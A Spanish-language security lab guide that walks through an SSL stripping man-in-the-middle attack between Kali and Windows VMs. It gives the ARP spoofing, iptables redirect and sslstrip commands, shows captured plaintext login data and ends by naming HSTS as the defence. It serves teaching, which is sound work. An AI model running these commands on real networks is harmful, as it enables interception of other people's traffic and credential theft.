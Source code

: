 # Práctica de Laboratorio: SSL Stripping

**Objetivo:** Realizar un ataque de SSL Stripping para capturar credenciales que normalmente estarían protegidas por HTTPS. Este ataque es una evolución del ataque MitM básico.

**Escenario:** El atacante ya se ha posicionado como Man-in-the-Middle (por ejemplo, mediante ARP Spoofing). Ahora, cuando la víctima intenta navegar a un sitio seguro (ej: `https://example.com`), el atacante intercepta esta petición. El atacante se conecta al sitio seguro por HTTPS, pero le presenta a la víctima una versión no cifrada (HTTP) del sitio. La víctima, si no se fija en la URL, introducirá sus credenciales en una página HTTP, y el atacante podrá capturarlas en texto plano.

**Máquinas Requeridas:**
*   Una VM con Kali Linux (atacante).
*   Una VM con Windows 8.1 (víctima).

**Herramientas:**
*   `arpspoof` (para el MitM).
*   `sslstrip` (para degradar la conexión de HTTPS a HTTP).

---

## Parte 1: Preparación del Entorno del Atacante (Kali Linux)

### Paso 1: Configurar el Reenvío de IP y las Reglas de Iptables

Para que `sslstrip` funcione, debemos redirigir todo el tráfico HTTP (puerto 80) que interceptemos hacia el puerto donde `sslstrip` estará escuchando (por ejemplo, el puerto 8080).

```bash
# 1. Habilita el reenvío de IP
sudo sysctl -w net.ipv4.ip_forward=1

# 2. Crea una regla en el firewall para redirigir el tráfico del puerto 80 al 8080
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

---

## Parte 2: Ejecución del Ataque

Para este ataque, necesitarás 3 terminales de Kali distintas.

### Paso 1: Obtener IPs de la Víctima y del Gateway

*   **IP Víctima (Windows 8.1):** `[IP_VICTIMA]`
*   **IP del Gateway (Puerta de enlace):** `[IP_GATEWAY]`

### Terminal 1: Envenenamiento ARP (MitM)

Nos posicionamos en medio de la comunicación entre la víctima y el gateway.

```bash
# Engañar a la víctima para que piense que somos el gateway
sudo arpspoof -i eth0 -t [IP_VICTIMA] [IP_GATEWAY]
```

### Terminal 2: Envenenamiento ARP (MitM) - Dirección Inversa

```bash
# Engañar al gateway para que piense que somos la víctima
sudo arpspoof -i eth0 -t [IP_GATEWAY] [IP_VICTIMA]
```

### Terminal 3: Ejecución de SSLstrip

Iniciamos `sslstrip` para que escuche en el puerto 8080. `sslstrip` se encargará de interceptar las peticiones, conectarse por HTTPS al servidor real, y servir una versión HTTP a la víctima.

```bash
# Inicia sslstrip escuchando en el puerto 8080 y guardando un log
sudo sslstrip -l 8080
```

---

## Parte 3: Verificación y Captura de Credenciales

1.  **En la máquina víctima (Windows 8.1)**, abre un navegador web.
2.  Navega a un sitio web que utilice HTTPS y tenga un formulario de login. **Importante:** Este ataque es antiguo y los navegadores modernos tienen protecciones como HSTS. Necesitarás encontrar un sitio de prueba que no implemente HSTS. Un buen ejemplo para laboratorios es `http://testphp.vulnweb.com/login.php` (aunque empieza por http, el formulario de login puede enviar a https, que es lo que interceptaremos).
3.  **Observa la URL:** Aunque el sitio real funcione sobre HTTPS, gracias a `sslstrip`, tu navegador debería mostrar `http://` y no tener el candado de seguridad.
4.  **Introduce credenciales falsas** en el formulario de login (ej: usuario `test`, contraseña `test1234`).
5.  **Revisa los resultados en Kali:** Vuelve a la terminal donde ejecutas `sslstrip`. Verás en la salida los datos del formulario que has enviado, **en texto plano**.

    ```
    [...]
    POST /login.php HTTP/1.1
    Host: testphp.vulnweb.com
    [...]
    
    uname=test&pass=test1234
    ```

### Limpieza

Cuando termines, detén los tres comandos en las terminales de Kali (`Ctrl+C`) y limpia las reglas del firewall y el reenvío de IP.

```bash
# Limpia las reglas de iptables
sudo iptables -t nat -F

# Desactiva el reenvío de IP
sudo sysctl -w net.ipv4.ip_forward=0
```

## Conclusión y Relevancia Actual

Este ataque demuestra cómo un atacante puede anular la protección de SSL/TLS si el sitio web no está configurado de forma segura. La principal defensa contra SSL Stripping es **HSTS (HTTP Strict Transport Security)**. HSTS es una cabecera que el servidor envía al navegador la primera vez que se conecta, diciéndole: "Durante los próximos X meses, conéctate a mí únicamente a través de HTTPS". De esta forma, el navegador nunca intentará hacer una petición HTTP, frustrando el ataque de `sslstrip` desde el principio.